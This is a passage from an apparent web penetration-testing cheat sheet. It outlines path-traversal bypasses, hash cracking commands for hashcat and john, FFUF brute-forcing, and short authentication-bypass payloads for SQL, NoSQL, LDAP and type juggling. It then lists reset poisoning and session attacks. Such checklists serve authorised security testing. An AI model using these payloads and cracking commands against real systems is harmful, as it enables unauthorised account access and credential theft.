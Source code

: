     *   `GET ..;/..;/..;/..;/..;/..;/[POST_AUTH_ENDPOINT]`
    *   Encodings                        → URL / Double URL / Unicode / Nested / UTF-8
    *   Non-Standard Proxies  → Different from Apache / Nginx

### User Handling

*   Registration
    *   Arbitrary Sign-Up
    *   [Account Takeover](https://book.hacktricks.xyz/pentesting-web/registration-vulnerabilities)
*   [Authentication](https://book.hacktricks.xyz/pentesting-web/login-bypass)
    *   Request Inspection
        *   Data Type / Status Code
        *   Broken Logic
        *   Response Content
    *   Hashed / Encoded Strings
        *   Identification                → `hashid [HASH]` / `hashcat --identify [HASH]` / [Weakpass](https://weakpass.com/tools/lookup) / [Crackstation](https://crackstation.net/) 
        *   [Hashcat Cracking](https://github.com/unstable-deadlock/brashendeavours.gitbook.io/blob/master/pentesting-cheatsheets/hashcat-hash-modes.md)      → `hashcat -m [MODE] -a 0 [ROCKYOU/WEAKPASS] -r [HASHCAT_RULE] --force [HASH.hashcat]` + [Rules Usage](https://github.com/NotSoSecure/password_cracking_rules)
        *   John Cracking              → `john --fork=15 --wordlist=[ROCKYOU/WEAKPASS] --rules=[HASHCAT_RULE] --format=[FORMAT] [HASH.john]`
        *   Incomplete Hashes     → Length Check + Alphanumeric Bruteforcing
        *   Encoded Values           → [CyberChef](https://gchq.github.io/CyberChef/) + Output Suggestion / `echo -n` + `tr -d '\n'` CLI Encodings
    *   401 Basic Authentication
        *   `httpbrute() [401_URL]` 
        *   `.htpasswd` Stealing → `APR1` Hashcat Cracking
    *   FFUF Spraying 
        *   BurpSuite Extension → “Copy as FFUF”
        *   GET    → `ffuf -u [QUERY_URL] -w [WORDLIST]`
        *   POST → `ffuf -u [POST_URL] -d [PAYLOAD] -H "Content-Type: [TYPE]"` → URLEncoded / JSON / XML 
        *   Username Bruteforcing
    *   Injection Bypass
        *   [SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)         → `random[',"][)] or 1=1-- -`
        *   [NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)   → `random[',"][)] || 1==1//` / `user[$ne]=toto&pass[$ne]=toto` / `{"$ne": null}` JSON Values
        *   [LDAP](https://book.hacktricks.xyz/pentesting-web/ldap-injection)     → User: `*)(uid=*))(|(uid=*` + Password: `random`
        *   [XPATH](https://book.hacktricks.xyz/pentesting-web/xpath-injection)
    *   Type Juggling
        *   Array Types                  → `user[]=[EMPTY/RANDOM/VALID]&pass[]=[EMPTY/RANDOM/VALID]`
        *   Magic Hashes             → `QNKCDZO` / `10932435112` / `10885164793773`
        *   Request Confusion   → URL / JSON / XML + GET / POST
        *   NodeJS Bypass          → Valid Username + `"password":{"password": 1}` / `password[password]=1`
        *   Broken Logic              → Parameter Number + Valid Usernames
    *   [Reset/Forgot Poisoning](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/PasswordReset.md)
        *   Injections
        *   Token Validation / Encryption / Redirection / Referer Leak
        *   [More Exploits](https://book.hacktricks.xyz/pentesting-web/registration-vulnerabilities#password-reset-takeover)
    *   Multi-Step Authentication
        *   [MFA](https://portswigger.net/web-security/authentication/multi-factor)
        *   [OAuth](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)
        *   [SAML](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SAML%20Injection)
*   Session
    *   Client Forms
        *   Contact / Chat / Support / File Sending / User Profile
        *   Phishing / Server-Side Injections
    *   Cookie Hijacking
        *   Encoded Tampering